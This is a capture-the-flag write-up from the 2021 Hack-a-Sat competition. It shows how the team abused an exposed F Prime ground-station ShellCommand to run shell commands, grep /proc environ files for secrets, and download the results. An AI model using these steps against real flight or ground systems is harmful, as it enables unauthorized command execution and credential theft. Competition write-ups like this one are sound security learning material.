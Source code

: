 
# Grade F Prime Beef

### Rapid Unplanned Disassembly 

_88 points, 46 Solves_

Active ADDVulcan players:
<li> supersat
<li> dtechshield

## Challenge Description

Exploit the system, get the passcode, retrieve the flag.

## Ticket

Present this ticket when connecting to the challenge:

```
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX-XXXXXXXXXXXXXXXX}
```

Don't share your ticket with other teams.

## Connecting

Connect to the challenge on:

```
recent-puzzle.satellitesabove.me:5015
```

Using netcat, you might run:

```
nc recent-puzzle.satellitesabove.me 5015
```

## Solving

Your team's flag for this challenge will look something like:
flag{sierra457871juliet2:___a bunch of unguessable stuff___} 


## Write up by dtechshield

Based on the instructions presented we made a tcp connection to `recent-puzzle.satellitesabove.me` on port `5015` 

```
nc recent-puzzle.satellitesabove.me 5015
```

This presented us with the following output:

```
Ticket please:
ticket{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
Starting spacecraft
Starting ground station
Challenge Web Page Starting at http://18.222.149.133:12388
CLI available at 18.222.149.133:12389
```

First we logged in went to the http server:  `http://18.222.149.133:7834/`

Took a look at the page source: 
![Alt text](images/00_fprime_id.PNG "a title")

Identified that the system was using NASA's F Prime - https://github.com/nasa/fprime

Command interface was somewhat familiar from previous hackasat events...

Quickly looking at the interface we noticed the `Commanding` tab - started examining the available commands...

![Commands of Interest](images/01_commands_of_interest_highlighted.PNG "commands of interest")


We noticed `fileManager.ShellCommand`

Assuming this was a Unix based system first issued a command to see what is in the current directory:

```
2021-06-27T05:18:31.854Z    0x25d    fileManager.ShellCommand    [ "ls", "test.log" ]
2021-06-27T05:18:57.059Z    0x1f5    fileDownlink.SendFile    [ "test.log", "test.log" ]
```

Looking at the test.log we saw that there was a `satellite.exe`

```
$ cat test.log 

satellite.exe

test.log
```


Downloaded the `satellite.exe` using the `fileDownlink.SendFile` command.


Loaded `satellite.exe` into Ghidra and began our analysis:

```
void FUN_0014f610(long param_1)

{
  char *__s;
  
  FUN_00150820();
  *(undefined4 *)(param_1 + 0x3b0) = 0;
  __s = getenv("SAT_FLAG");
  strlen(__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::_M_replace
            (param_1 + 0x3b8U,0,*(char **)(param_1 + 0x3c0),(ulong)__s);
  std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::resize
            (param_1 + 0x3b8U,-0x60);
  setenv("SAT_FLAG","ThisIsNotTheFlagYouAreLookingFor",1);
  return;
}

```

Noticed the `SAT_FLAG` environment variable...

Ran echo $SAT_FLAG on the web interface

Downloading the file the team saw

```
 cat flag.txt 
ThisIsNotTheFlagYouAreLookingFor
```

supersat executed  the following commands:

```
2021-06-27T05:33:32.386Z    0x25d    fileManager.ShellCommand    [ "grep -ra flag /proc/*", "grep.log" ]
2021-06-27T05:33:42.489Z    0x1f5    fileDownlink.SendFile    [ "grep.log", "grep.log" ]
```


Contents of `grep.log`:

```
/proc/10/task/10/environ:SHELL=/bin/bashSAT_FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
PWD=/home/space/fprimeLOGNAME=spaceHOME=/home/spaceFLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX
_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
USER=spaceSHLVL=0PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/gamesMAIL=/var/mail/spaceOLDPWD=/home/space_=./sa
tellite.exe
``` 


dtechshield executed the following set of commands:

2021-06-27 06:34:08,(2(0)-1624775648:279639),fileManager.ShellCommand,605,[ ' e n v ' ,   ' t e s t . l o g ' ]
2021-06-27 06:34:21,(2(0)-1624775661:360806),fileDownlink.SendFile,501,[ ' t e s t . l o g ' ,   ' t e s t . l o g ' ]

Contents of `test.log`:

```
MAIL=/var/mail/space
USER=space
SHLVL=0
HOME=/home/space
OLDPWD=/home/space
LOGNAME=space
_=./satellite.exe
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SAT_FLAG=ThisIsNotTheFlagYouAreLookingFor
SHELL=/bin/bash
PWD=/home/space/fprime
FLAG=flag{sierra457871juliet2:XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXXXXXXXXXX_XXXXXXXXXXXXXXXX}
```


The initial response received for `SAT_FLAG` environment variable almost sent us on our way, but dumping the full set of environment variables the team captured the flag. 

